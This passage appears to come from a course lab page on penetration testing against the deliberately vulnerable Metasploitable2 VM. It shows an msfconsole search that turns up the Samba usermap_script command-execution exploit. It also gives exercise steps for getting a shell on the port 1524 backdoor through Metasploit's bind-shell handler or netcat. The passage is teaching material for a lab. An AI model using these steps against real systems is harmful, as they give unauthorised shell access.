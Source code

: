     We see the version `3.0.20` in the results for port `445`. We can use this in a msfconsole search:

        msf6 > search name:samba 3.0.20

        Matching Modules
        ================

           #  Name                                Disclosure Date  Rank       Check  Description
           -  ----                                ---------------  ----       -----  -----------
           0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


        Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

    This returns just the exploit that we found earlier. If we examine its `info`, we indeed see that its description does include
    "3.0.20", explaining how it was found via `search`:

        Description:
          This module exploits a command execution vulnerability in Samba
          versions 3.0.20 through 3.0.25rc3 when using the non-default
          "username map script" configuration option. By specifying a username
          containing shell meta characters, attackers can execute arbitrary
          commands. No authentication is needed to exploit this vulnerability
          since this option is used to map usernames prior to authentication!


Remember, attackers only need to get in _once_ in order to proceed. Defenders have
it harder in this regard -- they must plug all possible attack vectors.

<div class='alert alert-info'><strong>Tip!</strong> Remember, you can always
google version names along with terms like "exploit" and "msfconsole" to see
what comes up.</div>


## Exploitation Exploration: On Your Own

In this section, you will exploit three of <span class='badge badge-info'>the following additional service</span>.

<div class='alert alert-warning'><strong>Oh no!</strong> This section is a vague
as they come. But there still are hints.</div>

Now, exploit three additional services from the following list, using what you
learned above.

* 1099 \| RMIRegistry
    * set `srvhost` to kali's infosec-net ip address.
* 1524 \| bindshell
    * this is a backdoor shell set up on Metasploitable2, just waiting for a connection…
    * easy way, skip Metasploit and use `netcat` (`nc`)
        * Read basic docs on `nc` -- flex your self-learning muscle!
    * Metasploit way:
        * `use exploit/multi/handler`
        * `set payload generic/shell_bind_tcp`
        * `set lport 1524`
        * `set rhost 192.168.56.102`
* 6667 \| unrealircd
    * to get the precise version number, connect to the IRC server running on metasploitable2.
        * `apt install hexchat`
        *  run `hexchat`
        * Networks > Add > (name it whatever) > Edit
          * replace `newserver/6667` with `192.168.56.102/6667`
          * unselect "Use SSL for all the servers on this network"
            {% include lab-image.html width="200px" image='hexchat-msf2-config.png' %}